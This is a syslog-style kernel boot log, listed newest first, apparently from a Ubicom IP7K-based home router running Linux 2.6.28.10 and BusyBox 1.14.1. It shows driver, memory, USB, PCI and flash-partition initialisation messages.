May 30 16:59:00    info    [    3.770000] eth0 vp_base:0x3fffbb6c, tio_int:11 irq:23 feature:0x180
May 30 16:59:00    info    [    3.770000] usbcore: registered new interface driver rndis_host
May 30 16:59:00    info    [    3.770000] usbcore: registered new interface driver cdc_ether
May 30 16:59:00    info    [    3.770000] usbcore: registered new interface driver asix
May 30 16:59:00    info    [    3.770000] NET: Registered protocol family 24
May 30 16:59:00    info    [    3.770000] PPP MPPE Compression module registered
May 30 16:59:00    info    [    3.770000] PPP BSD Compression module registered
May 30 16:59:00    info    [    3.770000] PPP Deflate Compression module registered
May 30 16:59:00    info    [    3.770000] PPP generic driver version 2.4.2
May 30 16:59:00    info    [    3.770000] brd: module loaded
May 30 16:59:00    info    [    3.650000] ttyUM0 at MMIO 0x1000300 (irq = 62) is a UBI32_MAILBOX
May 30 16:59:00    info    [    3.650000] Serial: Ubicom32 mailbox serial driver.
May 30 16:59:00    info    [    3.650000] ubicom32 rng init
May 30 16:59:00    info    [    3.650000] ubicom32 rng started
May 30 16:59:00    info    [    3.650000] N_HDLC line discipline registered.
May 30 16:59:00    info    [    3.650000] HDLC line discipline: version $Revision: 4.8 $, maxframe=4096
May 30 16:59:00    info    [    3.430000] io scheduler noop registered (default)
May 30 16:59:00    info    [    3.430000] alg: No test for stdrng (krng)
May 30 16:59:00    info    [    3.430000] msgmni has been set to 108
May 30 16:59:00    info    [    3.430000] JFFS2 version 2.2. (NAND) © 2001-2006 Red Hat, Inc.
May 30 16:59:00    info    [    3.430000] Registering unionfs 2.5.1 (for 2.6.28.1)
May 30 16:59:00    info    [    3.430000] ar8316 (ID=0x004dd041) switch chip initialized
May 30 16:59:00    info    [    3.430000] Registered switch device: ar8316-smi
May 30 16:59:00    info    [    3.260000] input: Ubicom32 Input as /class/input/input0
May 30 16:59:00    info    [    3.260000] ipProfile (profiling) is not enabled in Ultra.  Profiler /proc interface is disabled.
May 30 16:59:00    info    [    0.380000] NET: Registered protocol family 1
May 30 16:59:00    info    [    0.380000] /proc/ttl_ipmr created
May 30 16:59:00    info    [    0.350000] TCP reno registered
May 30 16:59:00    info    [    0.350000] TCP: Hash tables configured (established 2048 bind 2048)
May 30 16:59:00    info    [    0.350000] TCP bind hash table entries: 2048 (order: 1, 8192 bytes)
May 30 16:59:00    info    [    0.350000] TCP established hash table entries: 2048 (order: 2, 16384 bytes)
May 30 16:59:00    info    [    0.350000] /proc/ttl_ipv4 created
May 30 16:59:00    info    [    0.350000] IP route cache hash table entries: 1024 (order: 0, 4096 bytes)
May 30 16:59:00    debug    [    0.270000] Switched to high resolution mode on CPU 0
May 30 16:59:00    notice    [    0.270000] timer[34]: oneshot
May 30 16:59:00    info    [    0.260000] NET: Registered protocol family 2
May 30 16:59:00    info    [    0.220000] hub 1-0:1.0: 1 port detected
May 30 16:59:00    info    [    0.220000] hub 1-0:1.0: USB hub found
May 30 16:59:00    info    [    0.220000] usb usb1: configuration #1 chosen from 1 choice
May 30 16:59:00    info    [    0.220000] musb_hdrc musb_hdrc.0: new USB bus registered, assigned bus number 1
May 30 16:59:00    info    [    0.220000] musb_hdrc musb_hdrc.0: MUSB HDRC host driver
May 30 16:59:00    info    [    0.220000] musb_hdrc: USB Host mode controller at 02009800 using PIO, IRQ 13
May 30 16:59:00    debug    [    0.220000] musb_hdrc: hw_ep 5shared, max 64
May 30 16:59:00    debug    [    0.220000] musb_hdrc: hw_ep 4shared, max 512
May 30 16:59:00    debug    [    0.220000] musb_hdrc: hw_ep 3shared, max 512
May 30 16:59:00    debug    [    0.220000] musb_hdrc: hw_ep 2shared, max 1024
May 30 16:59:00    debug    [    0.220000] musb_hdrc: hw_ep 1shared, max 16
May 30 16:59:00    debug    [    0.220000] musb_hdrc: hw_ep 0shared, max 64
May 30 16:59:00    debug    [    0.220000] musb_hdrc: MHDRC RTL version 2.0 
May 30 16:59:00    debug    [    0.220000] musb_hdrc: ConfigData=0x22 (UTMI-8, SoftConn)
May 30 16:59:00    info    [    0.220000] musb_hdrc: version 6.0, pio, host, debug=0
May 30 16:59:00    info    [    0.220000] usbcore: registered new device driver usb
May 30 16:59:00    info    [    0.220000] usbcore: registered new interface driver hub
May 30 16:59:00    info    [    0.220000] usbcore: registered new interface driver usbfs
May 30 16:59:00    notice    [    0.220000] SCSI subsystem initialized
May 30 16:59:00    info    [    0.220000] PCI: bus0: Fast back to back transfers enabled
May 30 16:59:00    info    [    0.220000] pci 0000:00:00.0: PME# disabled
May 30 16:59:00    info    [    0.220000] pci 0000:00:00.0: PME# supported from D0 D3hot
May 30 16:59:00    debug    [    0.220000] pci 0000:00:00.0: reg 10 32bit mmio: [0x000000-0x00ffff]
May 30 16:59:00    info    [    0.220000] ubicom32_flash_init(): registering device resources
May 30 16:59:00    info    [    0.220000] ip7160rgw_init: registering SPI resources
May 30 16:59:00    info    [    0.220000] ip7160rgw_init: registering device resources
May 30 16:59:00    info    [    0.220000] Ubicom GPIO Controller
May 30 16:59:00    info    [    0.220000] NET: Registered protocol family 16
May 30 16:59:00    info    [    0.220000] net_namespace: 696 bytes
May 30 16:59:00    info    [    0.220000] OCM Instruction Heap 57 KB
May 30 16:59:00    info    [    0.020000] Calibrating delay loop... 199.47 BogoMIPS (lpj=997376)
May 30 16:59:00    info    [    0.020000] Memory available: 55460k/64752k RAM, (2275k kernel code, 5636k data)
May 30 16:59:00    info    [    0.020000] Inode-cache hash table entries: 4096 (order: 2, 16384 bytes)
May 30 16:59:00    info    [    0.010000] Dentry cache hash table entries: 8192 (order: 3, 32768 bytes)
May 30 16:59:00    info    [    0.000000] console [ttyUM0] enabled
May 30 16:59:00    notice    [    0.000000] timer[34]: periodic: 5000000 cycles
May 30 16:59:00    notice    [    0.000000] timer[34]: shutdown
May 30 16:59:00    notice    [    0.000000] timer[34]: timer-primary - created
May 30 16:59:00    notice    [    0.000000] Kernel command line: console=ttyUM0 console=ttyUS0 serdes=0x02004000,61,250000000 mtdparts=ubicom32_boot_flash:128k(bootloader),7360k(upgrade),384k(jffs2),64k(fw_env),192k(language_pack),64k(artblock)
May 30 16:59:00    debug    [    0.000000]   Movable zone: 0 pages used for memmap
May 30 16:59:00    debug    [    0.000000]   Normal zone: 16319 pages, LIFO batch:3
May 30 16:59:00    debug    [    0.000000]   Normal zone: 129 pages used for memmap
May 30 16:59:00    debug    [    0.000000]   DMA zone: 59 pages, LIFO batch:0
May 30 16:59:00    debug    [    0.000000]   DMA zone: 0 pages reserved
May 30 16:59:00    debug    [    0.000000]   DMA zone: 1 pages used for memmap
May 30 16:59:00    debug    [    0.000000] free_area_init_node: node 0, pgdat 403a9cd4, node_mem_map 4090e800
May 30 16:59:00    debug    [    0.000000] On node 0 totalpages: 16508
May 30 16:59:00    info    [    0.000000]   3fffbbcc: sendirq=021, recvirq=013,  name=usbtio
May 30 16:59:00    info    [    0.000000]   3fffbc44: sendirq=255, recvirq=001,  name=traps
May 30 16:59:00    info    [    0.000000]   3fffbaac: sendirq=255, recvirq=255,  name=processor
May 30 16:59:00    info    [    0.000000]   3fffbb18: sendirq=010, recvirq=022,  name=pci
May 30 16:59:00    info    [    0.000000]   3fffbb6c: sendirq=011, recvirq=023,  name=eth_lan
May 30 16:59:00    info    [    0.000000]   3fffbc8c: sendirq=255, recvirq=255,  name=bootargs
May 30 16:59:00    info    [    0.000000]   3fffbed0: sendirq=255, recvirq=255,  name=board
May 30 16:59:00    info    [    0.000000] Device Tree:
May 30 16:59:00    info    [    0.000000] IP7K Processor, Ubicom, Inc. 'www.ubicom.com'
May 30 16:59:00    info    [    0.000000] updating range registers for expanded dram
May 30 16:59:00    info    [    0.000000] processor ocm 3ffc1f00-3fff4d00, expecting 3ffc1f00-3fff4d00
May 30 16:59:00    notice    [    0.000000] Linux version 2.6.28.10 (test@yufa.core8) (gcc version 4.4.1 20100320 (stable) (GCC) ) #10 Thu Aug 12 20:00:06 CST 2010
May 30 16:59:00    notice    klogd started: BusyBox v1.14.1 (2010-08-12 10:39:13 CST)
May 30 16:59:00    info    BusyBox v1.14.1
```
